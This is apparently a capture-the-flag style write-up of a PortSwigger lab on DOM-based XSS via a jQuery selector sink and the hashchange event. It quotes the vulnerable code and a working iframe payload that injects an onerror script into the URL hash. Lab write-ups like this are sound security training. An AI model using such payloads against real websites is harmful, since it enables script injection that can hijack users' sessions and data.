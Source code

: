 
# DOM XSS in jQuery selector sink using a hashchange event

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.

---------------------------------------------

References:

- https://portswigger.net/web-security/cross-site-scripting/dom-based

---------------------------------------------


This is the problematic code in the Home page:

```
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```



![img](images/DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashchange%20event/1.png)

To exploit it, it is possible to use the same payload as in https://portswigger.net/web-security/cross-site-scripting/dom-based:

```
<iframe style="width:100%;height:100%" src="https://0ae000fe04dcc1068048c1f000ed005b.web-security-academy.net#" onload="this.src+='<img src=1 onerror=print(1)>'">
```



![img](images/DOM%20XSS%20in%20jQuery%20selector%20sink%20using%20a%20hashchange%20event/2.png)
